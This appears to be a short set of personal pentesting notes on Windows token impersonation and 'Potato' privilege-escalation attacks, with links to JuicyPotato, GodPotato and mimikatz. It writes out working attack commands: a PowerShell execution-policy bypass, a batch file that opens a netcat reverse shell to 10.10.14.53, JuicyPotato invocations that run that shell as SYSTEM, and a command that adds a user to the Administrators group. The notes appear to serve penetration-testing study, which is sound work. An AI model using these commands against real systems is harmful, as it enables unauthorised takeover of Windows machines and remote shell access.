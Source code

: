 # IMPERSONATION ATTACKS

## Token Impersonation
We see which tokens are avaliable to impersonate y get the access into the account of that person

![imagen](https://github.com/D1ie3z/Pentesting/assets/88562299/ced17c45-f8d3-4f6d-adbb-646cd741d18b)

We run mimikatz

## Impersonation overview

* whoami /priv

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges

## Potato Attacks
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://github.com/ohpe/juicy-potato
https://github.com/BeichenDream/GodPotato/releases/tag/V1.20

We need a vali CLSID and Port Number
https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1
powershell -executionpolicy bypass -file GetCLSID.ps1 > clsid.txt
Also Try
* Create a file .bat with reverse shell content -> echo C:\Temp\nc.exe -e cmd.exe 10.10.14.53 443 > Reverse.bat
* Execute with Juicy -> JuicyPotato.exe -t * -p C:\Temp\Reverse.bat -c {CLSID} -l 443 (Try with out CLSID in case doesn't work)
Other option 
* JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Admnistrators Test /add" -l 1234
